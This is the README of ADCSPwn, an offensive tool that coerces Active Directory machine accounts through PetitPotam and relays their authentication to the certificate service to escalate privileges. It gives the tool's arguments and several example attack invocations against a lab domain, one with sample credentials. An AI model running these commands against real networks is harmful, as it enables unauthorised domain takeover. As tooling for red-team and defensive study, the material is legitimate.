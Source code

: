 # ADCSPwn

A tool to escalate privileges in an active directory network by coercing authenticate from machine accounts (Petitpotam) and relaying to the certificate service.

## Usage

Run `ADCSPwn` on your target network.

```
Author: @_batsec_ - MDSec ActiveBreach
Contributor: @Flangvik -  TrustedSec
Contributor: @424f424f -  Black Hills Information Security

adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]

Required arguments:
adcs            -       This is the address of the AD CS server which authentication will be relayed to.

Optional arguments:
secure          -       Use HTTPS with the certificate service.
port            -       The port ADCSPwn will listen on.
remote          -       Remote machine to trigger authentication from.
username        -       Username for non-domain context.
password        -       Password for non-domain context.
dc              -       Domain controller to query for Certificate Templates (LDAP).
unc             -       Set custom UNC callback path for EfsRpcOpenFileRaw (Petitpotam) .
output          -       Output path to store base64 generated crt.

Example usage:
adcspwn.exe --adcs cs.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --secure
adcspwn.exe --adcs cs.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --dc dc.pwnlab.local --unc \\WIN-WORK01.pwnlab.local\made\up\share
```

## Credits

- [@harmj0y](https://twitter.com/harmj0y) & [@tifkin_](https://twitter.com/tifkin_) for their [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) detailing this issue.
- [@topotam77](https://twitter.com/topotam77) for showing how `EfsRpcOpenFileRaw` can be abused.
